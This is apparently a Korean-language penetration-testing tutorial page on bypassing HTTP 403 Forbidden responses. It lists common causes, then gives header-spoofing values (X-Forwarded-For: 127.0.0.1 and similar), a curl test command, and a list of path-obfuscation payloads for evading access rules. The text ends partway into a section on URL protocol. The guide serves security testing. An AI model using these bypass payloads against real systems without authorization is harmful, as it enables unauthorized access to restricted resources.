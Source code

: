 ```yaml
---
title: 403 Bypass
layout: default
parent: Web Penetration Test
nav_order: 2.7
description: "Web hacking"
---
```



# Bypass 403 Forbidden

{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }

1. TOC
{:toc}

"403 Forbidden"은 웹 서버가 요청을 거부했을 때 발생하는 HTTP 상태 코드 중 하나 입니다. 403 오류 메세지는 사용자가 요청한 리소스에 접근할 권한이 없다는 뜻을 의미 합니다. 보통 서버측에서 권한 설정을 잘못 했거나, 요청한 페이지나, 특정 파일이 특정 사용자에게만 허용되었을때 발생할 수 있습니다.

## Reasons of 403 Forbidden

403 Forbidden이 발생하는 일반적인 이유는 다음과 같습니다.

1. Not Enough Privileges (권한 부족): 서버가 해당 리소스에 대한 접근을 제한하거나, 로그인한 사용자가 접근할 수 없는 리소스를 요청했을 때 발생할 수 있습니다.

2. IP 차단: 특정 IP나 지역에서의 접근을 차단했을 때도 발생할수 있습니다.

3. WAF (Web Application Firewall)로 인한 차단: 웹 서버에 대한 다양한 공격들을 감지하면 WAF에서 403 Forbidden 응답을 반환할 수 있습니다. 

4. 봇 탐지 및 차단: 봇이 서버에 불법적으로 접근하거나 스팸, 크롤링, 디도스 등 악의적인 행동을 하게되면 403 Forbidden 오류가 발생할 수 있습니다.

5. CORS (Cross-Origin Resource Sharing): 보안상의 이유로, 웹 브라우저에서 다른 도메인에서 온 리소스에 대한 접근 제한을 할수 있습니다. 

6. 디렉토리 리스팅 차단: 디렉토리 리스팅을 허용하면 공격자가 서버의 파일 구조를 탐색할 수 있습니다. 이것을 방지하기 위해 디렉토리 리스팅 차단하는 설정을 할 수 있습니다.

7. HTTP 요청 헤더 분석: 비정상적인 HTTP 요청 헤더가 올 경우, 차단하는 경우가 있을 수 있습니다.


## 403 Bypass 방법 

### Bypassing IP and Host restriction

HTTP 헤더는 여러가지 커스텀 헤더들이 존재합니다. 다양한 WAF나 웹 어플리케이션이 커스텀 헤더들을 받는 경우도 많고 않쓰이는 헤더들을 필터링을 못하는 경우도 많습니다. 

여러 IP나 Host를 커스텀해더로 바꿀 수 있습니다.

```js
    X-Custom-IP-Authorization: 127.0.0.1
    X-Forwarded: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Forwarded-Host: localhost
    X-Forwarded-By: 127.0.0.1
    X-Forwarded-Port: 80
    X-Forward-For: 127.0.0.1
    X-Remote-IP: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Client-IP: 127.0.0.1
    X-Real-IP: 127.0.0.1
    X-True-IP: 127.0.0.1
    Redirect: localhost
    Referer: localhost
    Host: localhost
```

Curl로도 해당 여러 취약점을 테스트 해볼 수 있습니다.

```js
curl -i -k -H "X-Forwarded: 127.0.0.1" <URL>
```

### Bypassing path-base blocking

URI Path 기반으로 403 Forbidden이 발생하는 경우, 아래와 같은 리스트를 활용해 해당 URL을 나타내지만 정규식에 걸리지 않도록 경로를 우회하는 로직을 사용할 수 있습니다.

```
    localhost/path
    localhost/%2e/path
    /path%20
    /path%09
    /path%00
    /%90/path
    /%2e/path
    /path/
    /path/.
    //path//
    /./path
    /;/path
    /.;path
    //;//path
    /path..;/
    /path/..;/
    /path.json
    /path.css
    /path.html
    /path?
    /path??
    /path???
    /path?testparam
    /path#
    /path#test
```

### Changing API Version
 
API를 테스트 하는경우, 여러 API 버전들을 바꿔가면서 테스트를 해볼수 있습니다.

```
/v1/secret
/v2/secret
```

### Changing URL Protocol

때로는 https에서만 Access Control을 하는 경우가 있습니다.

